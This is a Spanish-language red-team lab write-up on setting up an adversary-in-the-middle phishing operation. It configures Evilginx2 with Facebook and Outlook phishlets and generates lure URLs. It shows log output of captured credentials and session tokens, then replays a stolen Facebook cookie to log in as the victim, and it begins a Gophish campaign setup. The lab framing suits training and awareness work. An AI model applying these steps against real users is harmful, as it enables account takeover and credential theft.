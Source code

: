 # Laboratorio de Phishing

### VPS

> Para este laboratorio, configuré un **Droplet** (*VPS*) de *Digital Ocean* con Ubuntu y el **nombre de dominio** `calcifer.lat`.

Es importante configurar correctamente el registro *DNS* **A** de nuestro dominio al *VPS*, y el registro **CNAME** de cualquier dominio (`*`) a el dominio principal, en este caso `calcifer.lat`.

| Tipo      | Host | Valor          |
| --------- | ---- | -------------- |
| **A**     | `@`  | `<IP>`         |
| **CNAME** | `*`  | `calcifer.lat` |

---
### Configuración de  *Evilginx*

##### Instalación

<p  align="center">
  <img  width="200"  src="https://cdn.cyberpunk.rs/wp-content/uploads/2018/10/evilginx_phishing_bg.jpg"  alt="">
</p>

Primero, debemos asegurarnos de tener instalado el lenguaje **Golang** en el *VPS*, además de su compilador `go`.
De modo que ejecutamos:

```bash
sudo apt install golang-go
```

Ya que contemos con el compilador, en algun espacio de trabajo clonamos el repositorio oficial de **Evilginx**:

```bash
git clone https://github.com/kgretzky/evilginx2.git
```

Despues, dentro de la carpeta que acabamos de clonar, compilamos el código fuente para generar un ejecutable `evilginx2`. Esto con la instrucción:

```bash
go build
```

Opcionalmente, se podría configurar un *script* `/usr/local/bin/evilginx2`  con siguiente contenido para poder ejecutar `evilginx2` desde cualquier ruta:

```bash
#!/bin/bash
(cd /usr/share/evilginx2 && ./evilginx2 "$@")
```

Así, podemos iniciar `evilginx2` para que genere los archivos de configuración necesarios y debería verse algo similar a:

![redteam_phishingevilginx.png](imagenes/redteam_phishingevilginx.png)

El error al iniciar el **nameserver** es típico y se soluciona editando el archivo `/etc/systemd/resolved.conf`, particularmente fijando las siguientes opciones de la sección `[Resolve]`:

- `DNS=1.1.1.1`
- `FallbackDNS=8.8.8.8`
- `DNSStubListener=no`

Después, creamos un enlace simbólico necesario con el siguiente comando:

```bash
sudo ln -sf /run/systemd/resolve/resolv.conf /etc/resolv.conf
```

Y después de reiniciar el **VPS**, ya no debería salir esta advertencia.

##### Phishlets y lures

Para este laboratorio, se utilizaron **Phishlets** del repositorio [Evilginx2-Phishlets](https://github.com/An0nUD4Y/Evilginx2-Phishlets), particularmente `facebook.yaml` y `outlook.yaml`.
Es necesario descargarlos y ubicarlos en la ubicación del directorio `evilginx2` que clonamos, en la carpeta `phishlets`.

Una vez descargados, deberían reflejarse en la intefaz de `evilginx2` al iniciarlo:

![redteam_phishlets_loaded.png](imagenes/redteam_phishlets_loaded.png)

Antes de activarlos, primero debemos designarles un **subdominio** de nuestro dominio principal `calcifer.lat`.
Se recomienda un nombre genérico, pues muchos `phishlets` agregan subdominios por su cuenta, pero relacionado al sitio objetivo.
Para **Facebook** seleccioné el subdominio `meta.calcifer.lat` y se asigna con el siguiente comando dentro de la interfaz:

```evilginx2
# phishlets hostname <nombre> <subdominio>

phishlets hostname facebook meta.calcifer.lat
```

Después, se activa el phishlet y **Evilginx** automáticamente generará los certificados *TLS/SSL* necesarios.

![redteam_phishlets_enable.png](imagenes/redteam_phishlets_enable.png)

Finalmente, se debe crear un **lure**, el enlace malicioso que entregaremos como **carga útil**, con la instrucción:

```evilginx2
# lures create <nombre_phishlet>

lures create facebook
```

Y generar la **URL** correspondiente, en base al **ID** asignado al nuevo **lure**, en este caso 0, con:

```evilginx2
# lures get-url <id>

lures get-url 0
```

Esto nos brinda una **URL** de un recurso malicioso dentro del subdominio indicado previamente, por ejemplo `https://www.meta.calcifer.lat/ycWnmuCs`, que detonará la funcionalidad maliciosa de **proxy inverso** sobre el *login* de *Facebook*.

##### Captura de sesión

Obviando por el momento los mecanismos de entrega, cuando la **victima** acceda al enlace, lo recibirá un **login** auténtico de *Facebook*:

![redteam_facebook_proxyied.png](imagenes/redteam_facebook_proxyied.png)

Una vez que este inicie sesión con sus credenciales, **Evilginx** capturará las credenciales y la **Cookie** de sesión devuelta por el sitio legítimo, **Facebook** en este caso.

```txt
[17:56:59] [+++] [2] Username: [rooteda8@gmail.com]
[17:56:59] [+++] [2] Password: [<--Redacted-->]
[17:57:01] [+++] [2] all authorization tokens intercepted!
```

Podemos visualizar todas las sesiones capturadas con el comando `sessions`, e inspeccionar detalles y el **token** capturado de una en particular especificando el **id** de la sesión, de la forma `sessions <id>`.

![redteam_facebookSession_captured.png](imagenes/redteam_facebookSession_captured.png)

Ahora, como **atacantes**, podemos utilizar esta **cookie** capturada para autenticarnos en el sitio legítimo `www.facebook.com`, **importandola** con alguna extensión compatible como [Cookie editor](https://cookie-editor.com/).

![redteam_cookie_editor.png](imagenes/redteam_cookie_editor.png)

Una vez **importada**, al recargar la página deberíamos estar *logeados* como el usuario capturado:

![redteam_logged_facebook.png](imagenes/redteam_logged_facebook.png)

---
## Servidor SMTP Relay

> Antes de entrar de lleno a **Gophish**, debemos asegurarnos de contar con un **servidor de correos** capaz de **retransmitir** los correos que creemos.

---
## Gophish

<p  align="center">
  <img  width="200"  src="https://d7umqicpi7263.cloudfront.net/img/product/af0a83bc-350b-441f-aa21-9a80e54ad8a8.com/ee699c30db989dfa671e081688f62f9a"  alt="">
</p>

> Ahora sí, retomando la **entrega**, avanzamos a la configuración de **Gophish** en la máquina atacante, como principal *software* de **administración** del envío de correos durante la campaña.

Lo primero es descargar la última versión del comprimido **pre-compilado** del *software* en la página [*Releases*](https://github.com/gophish/gophish/releases) de su repositorio oficial.

Despues de descomprimirlo, se obtiene un ejecutable `gophish` que, con los permisos adecuados, despliega el **panel administrativo** en un servidor web dentro de la red *loopback*: `https://localhost:3333`.

# Enlaces

[<- Fundamentos del Phishing](RedTeam_PhishingTeoria.md) |